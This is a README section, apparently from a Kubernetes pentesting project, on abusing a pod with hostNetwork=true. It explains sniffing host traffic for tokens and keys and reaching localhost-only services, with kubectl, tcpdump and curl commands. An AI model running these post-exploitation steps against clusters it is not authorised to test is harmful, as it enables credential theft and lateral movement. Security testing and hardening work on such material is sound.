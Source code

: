 ## hostNetwork pod - You can create a pod with only hostNetwork

If you only have `hostNetwork=true`, you can't get RCE on the host directly, but if your cross your fingers you might still find a path to cluster admin. 
The important things here are: 
* You can sniff traffic on any of the host's network interfaces, and maybe find some kubernetes tokens or application specific passwords, keys, etc. to other services in the cluster.  
* You can communicate with network services on the host that are only listening on localhost/loopback. Services you would not be able to touch without `hostNetowrk=true`

[pod-hostnetwork-only.yaml](pod-hostnetwork-only.yaml)


### Create pod
```bash 
# Option 1: Create pod from local yaml 
kubectl apply -f pod-hostnetwork-only.yaml  [-n namespace] 

# Option 2: Create pod from github hosted yaml
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/yaml/hostnetwork-only/pod-hostnetwork-only.yaml [-n namespace] 
```

### Exec into pod 

```bash
kubectl -n [namespace] exec -it pod-hostnetwork-only -- bash
```

### Post Exploitation 
```bash
# Install tcpdump and sniff traffic 
# Note: If you can't install tools to your pod (no internet access), you will have to change the image in your pod yaml to something that already includes tcpdump, like https://hub.docker.com/r/corfr/tcpdump

apt update && apt install tcpdump 



# Or investigate local services
curl https://localhost:1234/metrics
```